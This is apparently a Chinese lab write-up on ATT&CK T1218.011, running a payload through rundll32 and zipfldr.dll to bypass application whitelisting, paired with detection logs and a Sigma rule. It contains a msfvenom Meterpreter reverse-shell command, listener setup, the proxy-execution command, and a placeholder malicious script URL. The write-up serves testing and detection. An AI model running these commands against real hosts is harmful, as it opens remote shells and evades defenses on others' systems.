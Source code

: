 # T1218-011-Win-使用Zipfldr.dll执行Payload（白名单）

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

zipfldr.dll自Windows xp开始自带的zip文件压缩/解压工具组件，同样该工具支持WinXP-Win10 全版本，zipfldr.dll所在路径已被系统添加PATH环境变量中，因此zipfldr.dll命令可识别，但由于为dll文件，需调用rundll32.exe来执行。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

Windows 2003 默认位置：

C:\Windows\System32\zipfldr.dll

C:\Windows\SysWOW64\zipfldr.dll

Windows 7 默认位置：

C:\Windows\System32\zipfldr.dll

C:\Windows\SysWOW64\zipfldr.dll

## 检测日志

Windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload.dll

```bash
root@12306Br0:~# msfvenom -p windows/meterpreter/reverse_tcp -b '\x00\x0b' LHOST=192.168.126.146 LPORT=4444 -f exe > shell.exe
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploits/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > set AutoRunScript migrate f
AutoRunScript => migrate f
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
rundll32.exe zipfldr.dll,RouteTheCall .\shell.exe #shell.exe存放路径下执行
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Sending stage (180291 bytes) to 192.168.126.156
[*] Meterpreter session 6 opened (192.168.126.146:4444 -> 192.168.126.156:49176) at 2020-04-13 10:54:22 +0800
[*] Session ID 6 (192.168.126.146:4444 -> 192.168.126.156:49176) processing AutoRunScript 'migrate f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]

meterpreter > getuid
Server username: WIN-IFPMACUK8BT\Administrator

```

## 测试留痕

安全日志能够清晰的记录命令行参数，截取windows安全事件4688进程创建部分内容：

```log
进程信息: #4688-1
新进程 ID:0x918
新进程名称:C:\Windows\System32\rundll32.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x948
进程命令行:rundll32.exe  zipfldr.dll,RouteTheCall .\shell.exe

进程信息: #4688-2
新进程 ID:0x94c
新进程名称:C:\Users\Administrator\Desktop\a\shell.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x918
进程命令行:"C:\Users\Administrator\Desktop\a\shell.exe"
```

## 检测规则/思路

### sigma规则

```yml
title: 可疑Rundll32活动
description: 基于参数检测与rundll32相关的可疑进程
status: experimental
references:
    - http://www.hexacorn.com/blog/2017/05/01/running-programs-via-proxy-jumping-on-a-edr-bypass-trampoline/
    - https://twitter.com/Hexacorn/status/885258886428725250
    - https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52
tags:
    - attack.defense_evasion
    - attack.execution
    - attack.t1085
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine:
            - '*\rundll32.exe* url.dll,*OpenURL *'
            - '*\rundll32.exe* url.dll,*OpenURLA *'
            - '*\rundll32.exe* url.dll,*FileProtocolHandler *'
            - '*\rundll32.exe* zipfldr.dll,*RouteTheCall *'
            - '*\rundll32.exe* Shell32.dll,*Control_RunDLL *'
            - '*\rundll32.exe javascript:*'
            - '* url.dll,*OpenURL *'
            - '* url.dll,*OpenURLA *'
            - '* url.dll,*FileProtocolHandler *'
            - '* zipfldr.dll,*RouteTheCall *'
            - '* Shell32.dll,*Control_RunDLL *'
            - '* javascript:*'
            - '*.RegisterXLL*'
    condition: selection
falsepositives:
    - False positives depend on scripts and administrative tools used in the monitored environment
level: medium
```

### 建议

可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1085

<https://attack.mitre.org/techniques/T1085/>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
